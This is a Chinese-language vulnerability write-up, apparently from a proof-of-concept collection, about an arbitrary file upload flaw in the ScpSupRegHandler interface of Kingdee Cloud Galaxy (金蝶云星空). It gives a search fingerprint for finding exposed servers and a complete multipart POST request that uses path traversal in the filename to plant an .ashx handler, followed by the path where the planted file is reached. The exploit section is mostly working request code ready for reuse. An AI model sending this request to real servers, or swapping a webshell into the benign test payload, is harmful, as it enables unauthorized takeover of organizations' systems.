 # 

# 金蝶OA 云星空 ScpSupRegHandler 任意文件上传漏洞

## 漏洞描述

金蝶OA 云星空 ScpSupRegHandler 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件获取服务器权限

## 漏洞影响

金蝶OA 云星空

## 网络测绘

```
app="金蝶云星空-管理中心"
```

## 漏洞复现

登陆页面

![image-20231116140635693](images/image-20231116140635693.png)

poc

```
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 
Accept-Encoding: identity
Content-Length: 973
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=2ac719f8e29343df94aa4ab49e456061

--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="dbId_v"

.
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FID"

2022
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/test.ashx."
Content-Type: text/plain

<%@ WebHandler Language="C#" Class="TestHandler" %>
        using System;
        using System.Web;
        public class TestHandler : IHttpHandler {
            public void
            ProcessRequest (HttpContext context) {
                context.Response.ContentType= "text/plain";
                context.Response.Write("Test");
            }
            public bool IsReusable {
                get {return false; }
            }
        }
--2ac719f8e29343df94aa4ab49e456061--
```

![image-20231116140545666](images/image-20231116140545666.png)

```
/K3Cloud/uploadfiles/Test.ashx
```


